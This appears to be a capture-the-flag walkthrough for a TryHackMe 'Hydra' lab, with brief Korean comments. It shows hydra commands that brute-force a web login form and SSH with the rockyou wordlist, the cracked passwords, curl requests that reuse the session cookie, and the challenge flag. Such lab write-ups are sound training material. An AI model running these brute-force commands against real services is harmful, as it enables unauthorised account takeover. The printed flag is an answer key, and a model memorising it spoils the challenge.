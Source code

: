 # 10.201.106.187

hydra -l <username> -P <wordlist> 10.201.106.187 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.106.187 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

![](https://velog.velcdn.com/images/agnusdei1207/post/b6adca47-7371-4867-aec6-80b0e34434f0/image.png)

──(root㉿docker-desktop)-[/]
└─# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.106.187 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-25 15:00:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.201.106.187:80/login:username=^USER^&password=^PASS^:Your username or password is incorrect.
[80][http-post-form] host: 10.201.106.187 login: molly password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-25 15:00:43

# curl -X POST http://10.201.106.187/login -d "username=molly&password=sunshine" -L -c -v cookies.txt

┌──(root㉿docker-desktop)-[/]
└─# curl -X POST http://10.201.106.187/login -d "username=molly&password=sunshine" -L -c -v cookies.txt
Note: Unnecessary use of -X or --request, POST is already inferred.

- Trying 10.201.106.187:80...
- Connected to 10.201.106.187 (10.201.106.187) port 80
- using HTTP/1.x
  > POST /login HTTP/1.1
  > Host: 10.201.106.187
  > User-Agent: curl/8.15.0
  > Accept: _/_
  > Cookie: connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA
  > Content-Length: 32
  > Content-Type: application/x-www-form-urlencoded
- upload completely sent off: 32 bytes
  < HTTP/1.1 302 Found
  < X-Powered-By: Express
- Need to rewind upload for next request
  < Location: /
  < Vary: Accept
  < Content-Type: text/plain; charset=utf-8
  < Content-Length: 23
  < Date: Thu, 25 Sep 2025 15:04:18 GMT
  < Connection: keep-alive
- Ignoring the response-body
- setting size while ignoring
  <
- Connection #0 to host 10.201.106.187 left intact
- Issue another request to this URL: 'http://10.201.106.187/'
- Stick to POST instead of GET
- Re-using existing http: connection with host 10.201.106.187
  > POST / HTTP/1.1
  > Host: 10.201.106.187
  > User-Agent: curl/8.15.0
  > Accept: _/_
  > Cookie: connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA
- Request completely sent off
  < HTTP/1.1 404 Not Found
  < X-Powered-By: Express
  < Content-Security-Policy: default-src 'none'
  < X-Content-Type-Options: nosniff
  < Content-Type: text/html; charset=utf-8
  < Content-Length: 140
  < Date: Thu, 25 Sep 2025 15:04:19 GMT
  < Connection: keep-alive
  <
  <!DOCTYPE html>
  <html lang="en">
  <head>
  <meta charset="utf-8">
  <title>Error</title>
  </head>
  <body>
  <pre>Cannot POST /</pre>
  </body>
  </html>
- Connection #0 to host 10.201.106.187 left intact

# 쿠키 확보 -> connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA

# cat cookie.txt

# curl http://10.201.106.187/ -b "connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA" -v

# curl http://10.201.106.187 -b cookies.txt -v

┌──(root㉿docker-desktop)-[/]
└─# curl http://10.201.106.187 -b cookies.txt -v

- Trying 10.201.106.187:80...
- Connected to 10.201.106.187 (10.201.106.187) port 80
- using HTTP/1.x
  > GET / HTTP/1.1
  > Host: 10.201.106.187
  > User-Agent: curl/8.15.0
  > Accept: _/_
  > Cookie: connect.sid=s%3As9arV73evR0G0jgYSx6lGjr6ltSN7CLJ.nSgKksslAMQNJewyl67h%2FhlDsKec4JPPatkE0XFGSEA
- Request completely sent off
  < HTTP/1.1 200 OK
  < X-Powered-By: Express
  < Content-Type: text/html; charset=utf-8
  < Content-Length: 856
  < ETag: W/"358-ZUlnMFSQKTY8/4+sv52YQFGK7I4"
  < Date: Thu, 25 Sep 2025 15:06:38 GMT
  < Connection: keep-alive
  <
  <!doctype html>
  <html lang="en">
    <head>
      <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <link rel="stylesheet" href="/css/bootstrap.min.css">
  <title>Hydra Challenge</title>

    </head>
    <style>
      .jumbotron {
        background-image: url(/img/background.jpg);
        color: white;
        object-fit: cover;
        height: 100vh;
        margin: 0;
        border-radius: 0;
      }
      h1 {
        position: absolute;
        left: 50px;
        top: 50px;
        font-weight: bold;
        font-size: 50px;
      }
    </style>
    <body>

      <div class="jumbotron text-center">
        <h1>THM{2673a7dd116de68e85c48ec0b1f2612e}</h1>
      </div>

      <script src="/js/jquery.slim.min.js"></script>
      <script src="/js/popper.min.js"></script>
      <script src="/js/bootstrap.min.js"></script>

    </body>
  </html>

- Connection #0 to host 10.201.106.187 left intact

> hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.201.106.187 -t 4
> hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.106.187 -t 4 ssh

Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-26 15:23:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.201.106.187:22/
[22][ssh] host: 10.201.106.187 login: molly password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-26 15:23:37

![](https://velog.velcdn.com/images/agnusdei1207/post/5f8f9b50-2ea5-4c89-803c-36876f8de76c/image.png)
